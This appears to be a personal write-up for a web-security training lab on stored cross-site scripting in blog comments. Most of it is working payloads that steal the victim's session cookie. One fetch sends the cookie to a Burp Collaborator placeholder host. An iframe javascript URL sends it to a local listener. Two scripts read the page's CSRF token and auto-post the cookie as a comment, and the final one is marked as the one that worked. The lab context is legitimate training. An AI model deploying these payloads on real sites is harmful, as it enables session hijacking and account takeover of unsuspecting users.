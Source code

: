 Title: Exploiting cross-site scripting to steal cookies
Level: PRACTITIONER
Desc: This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim. 

fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});

<iframe width='1' height='1' src="javascript:var
url='http://0.0.0.0:9000?';url=url.concat(document.cookie);fetch(url);">
  
```
<script>
  var csrfToken = document.querySelector('input[name="csrf"]').value;
</script>
<form method="POST" action="https://0ab5000803d221408084030300750016.web-security-academy.net/post/comment">
    <input type="hidden" name="postId" value="4">
    <input type="hidden" name="comment" value="test">
    <input type="hidden" name="name" id="nameId">
    <input type="hidden" name="email" value="test@test.ts">
    <input type="hidden" name="website" value="https://sdkldl.com">
    <input type="hidden" name="csrf" id="csrfId">
</form>
<script>
  document.addEventListener('DOMContentLoaded', function() {
  var form = document.querySelector('section.add-comment form');
  var csrfToken = form.querySelector('input[name="csrf"]').value;
  console.log(csrfToken);
  //document.querySelector('#myForm input[name="csrf"]').value = csrfToken;
  var cookie = document.cookie;
  document.querySelector('#nameId').value = cookie;
  document.querySelector('#csrfId').value = csrfToken;
  document.forms[0].submit();
  });
</script>
```
  
To get the csrf :)))))
```
<script>
  document.addEventListener('DOMContentLoaded', function() {
    var form = document.querySelector('section.add-comment form');
    var csrfToken = form.querySelector('input[name="csrf"]').value;
    console.log(csrfToken);
  });
</script>
```

<img width="757" height="482" alt="image" src="https://github.com/user-attachments/assets/86b65cfd-30d5-4f44-9cd7-964a82aac733" />

I have made proper code, which is working, but from some reason I can't get victim session cookie

The following code worked.
```
<script>
function hax(){
  var token = document.getElementsByName('csrf')[0].value;
  var cookie = document.cookie;
  var data = new FormData();
  data.append('csrf', token);
  data.append('postId', 4);
  data.append('comment', `${cookie}`);
  data.append('name', 'victim');
  data.append('email', 'teset@test.sss');
  data.append('website', 'http://www.zen.sls');

  fetch('/post/comment', {
  method: 'POST',
  mode: 'no-cors',
  body: data
});
}
window.onload =  hax;
</script>
```
